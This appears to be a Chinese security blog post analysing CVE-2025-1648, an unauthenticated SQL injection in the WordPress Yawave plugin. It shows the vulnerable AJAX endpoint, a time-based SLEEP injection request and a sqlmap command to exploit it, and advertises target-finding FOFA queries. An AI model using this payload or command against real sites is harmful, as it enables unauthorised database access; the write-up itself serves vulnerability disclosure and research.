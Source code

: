 #  【0day漏洞分析】WordPress Yawave插件存在前台SQL注入漏洞(CVE-2025-1648)   
原创 Mstir  星悦安全   2025-02-27 11:12  
  
![图片](https://mmbiz.qpic.cn/sz_mmbiz_jpg/lSQtsngIibibSOeF8DNKNAC3a6kgvhmWqvoQdibCCk028HCpd5q1pEeFjIhicyia0IcY7f2G9fpqaUm6ATDQuZZ05yw/640?wx_fmt=other&from=appmsg&wxfrom=5&wx_lazy=1&wx_co=1&tp=webp "")  
  
点击上方  
蓝字  
关注我们 并设为  
星标  
## 0x00 前言  
  
该漏洞影响 Yawave 版本 <=2.9.1  
  
如果访问以下路径出现下图所示，说明存在未授权SQL注入漏洞  
```
/wp-admin/admin-ajax.php?action=js_liveblog_update
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/uicic8KPZnD5cW9NgUnN7cGGZxZqlp453aXCJ957p0ibG7WagOe4KLWBm9n02BLuQpc2ibyzzwD2lY1miaahBDlZuJg/640?wx_fmt=png&from=appmsg "")  
## 0x01 漏洞分析&复现  
  
漏洞点在 /includes/shortcode.liveblog.php 的 js_liveblog_update 方法，其通过GET传入 lbid参数，然后直接被带入到SQL查询字句中，导致漏洞产生.    
  
```
$get_liveblog_id = sanitize_text_field($_GET['lbid']);
```  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/uicic8KPZnD5cW9NgUnN7cGGZxZqlp453aYON0fV1dFOhd3NwRtbgn96hL9JVu4oCIOFhT5PQNLk8OrNarR49aicQ/640?wx_fmt=png&from=appmsg "")  
  
而 js_liveblog_update 方法则被注册进了 wp_ajax 钩子中，所以直接使用 /wp-admin/admin-ajax.php?action=js_liveblog_update 即可调用该方法实施注入.  
  
Payload:  
  
```
GET /wp-admin/admin-ajax.php?action=js_liveblog_update&lbid=(SELECT%205845%20FROM%20(SELECT(SLEEP(5)))FdfP)
Cache-Control: no-cache
Host: 127.0.0.1
Accept: */*
Accept-Encoding: gzip, deflate
Connection: close
```  
  
  
Sqlmap 语句：  
  
```
python sqlmap.py -u "http://127.0.0.1/wp-admin/admin-ajax.php?action=js_liveblog_update&lbid=*" --level=3 --dbms=mysql
```  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/uicic8KPZnD5cW9NgUnN7cGGZxZqlp453akgMa6pIhSicBGQ8XBiaTeLiaKiaic5nQokn9iccU2qURDviaPnqbae2YicCnmg/640?wx_fmt=png&from=appmsg "")  
## 0x02 FOFA语句  
  
**标签:代码审计，0day，渗透测试，系统，通用，0day，闲鱼，转转**  
  
**FOFA语句关注公众号发送 250227 获取!**  
  
****  
  
****  
**开了个星悦安全公开交流6群，🈲发公众号，纯粹研究技术，进了其他公开群的不要重复进了.**  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/uicic8KPZnD5cW9NgUnN7cGGZxZqlp453aOPiaffwajFmfm8icbia6ZoHFD868yp9cnJAibVsuqiaxib7X3ZoOeQ1hpGGQ/640?wx_fmt=jpeg&from=appmsg "")  
  
**免责声明:****文章中涉及的程序(方法)可能带有攻击性，仅供安全研究与教学之用，读者将其信息做其他用途，由读者承担全部法律及连带责任，文章作者和本公众号不承担任何法律及连带责任，望周知！！!**  
  
